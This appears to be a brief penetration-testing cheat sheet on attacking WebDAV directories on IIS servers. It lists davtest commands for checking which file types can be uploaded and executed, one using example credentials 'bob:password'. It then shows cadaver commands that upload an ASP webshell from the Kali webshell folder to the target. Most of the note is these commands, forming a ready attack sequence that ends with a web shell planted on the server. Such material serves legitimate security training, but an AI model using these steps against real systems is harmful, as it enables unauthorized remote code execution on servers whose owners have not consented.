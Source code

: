 # WebDAV Exploitation

---

WebDAV is a protocol used in IIS Windows http servers which allows files to get
downloaded from this directory and modify and delete files.

A tool for this is davtest, it shows what kind of files we can execute and upload.

davtest -url http://<target_ip>/webdav/

Authorized Access

davtest -auth bob:password -url http://<target_ip>/webdav/

The next step would be to use the cadaver tool, it will help to actually download, delete
edit and upload files into the directory.

cadaver --help shows syntax

cadaver http://<target_ip>/webdav/

ls -la /usr/share/webshells/asp/

--> go to cadaver --> put /usr/share/webshells/asp/webshell.asp

